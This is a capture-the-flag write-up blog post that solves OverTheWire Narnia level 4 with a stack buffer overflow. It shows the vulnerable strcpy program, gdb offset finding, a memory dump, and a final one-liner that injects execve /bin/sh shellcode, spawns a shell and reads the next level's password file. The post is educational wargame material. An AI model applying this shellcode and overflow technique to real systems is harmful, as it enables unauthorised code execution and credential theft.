 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 4 -> 5"
subtitle:   "Write-Up"
date:       2017-03-09 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
category: Overthewire
---
```


<h1>Introduction</h1>

<p>Today we'll be dealing with another reverse engineering challenge from Overthewire - pretty quick, but fun as always!  </p>

<h1>Challenge</h1>

<p>This code is a lot shorter, compared to the previous ones, making it much easier to analyze. </p>

{% highlight c %}
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
	int i;
	char buffer[256];

	for(i = 0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));

	if(argc>1)
		strcpy(buffer,argv[1]);

	return 0;
}

{% endhighlight %}

<p>Yeah, we have a buffer of 256 bytes, which gets the content, using dangerous <b>strcpy</b> function straight from the argument variable. This challenge looks a lot like the second one, so maybe we will also be able to put shellcode somewhere in the buffer? </p>

<p>Actually, after a little bit of tinktering in <b>gdb</b>, I've found that providing the binary with 273 "A" letters and 7 "B" letters will overwrite our buffer, together with return address.  </p>

{% highlight bash %}
(gdb) run $(python -c 'print "A" * 272 + "BBBBBBB"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /games/narnia/narnia4 $(python -c 'print "A" * 272 + "BBBBBBB"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
{% endhighlight %}

<p>Now let's take a look at the memory. </p>

{% highlight text %}
0xffffd800:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd810:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd820:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd830:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd840:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd850:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd860:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd870:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd880:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd890:	0x41414141	0x41414141	0x41414141	0x41414141
---Type <return> to continue, or q <return> to quit---
0xffffd8a0: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffd8b0: 0x41414141  0x41414141  0x42424141  0x42424242
0xffffd8c0: 0x00004242  0x00000000  0x00000000  0x00000000
0xffffd8d0: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd8e0: 0x00000000  0x00000000  0x00000000  0x00000000
{% endhighlight %}

<p>From this we know that I have somewhere around 272 bytes for the shellcode with some additional bytes that will overwrite the return address. Now we can construct the command, using code from the previous levels. </p>

<p>As we know already that our payload is 25 bytes in size, we will have to firstly write 247 "A" letters, then 25 bytes of shellcode and lastly overwriting the <b>EIP register</b>, which then will be placed somewhere in the middle of "A" letters. By looking at the debug of the memory, I'm going to choose it as <b>0xffffd850</b>.  </p>

{% highlight bash %}
narnia4@melinda:/narnia$ ./narnia4 $(python -c'print "A" * 247 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x50\xd8\xff\xff"')
$ cat /etc/narnia_pass/narnia5
********
{% endhighlight %}

<p>Once again we have the password to the next level! </p>

<h1>Conclusion</h1>
<p>Another big thanks  to <a href="http://overthewire.org/wargames/">OverTheWire</a>! I'm looking forward to the next challenges! </p>


<p>~ Stay safe!</p>
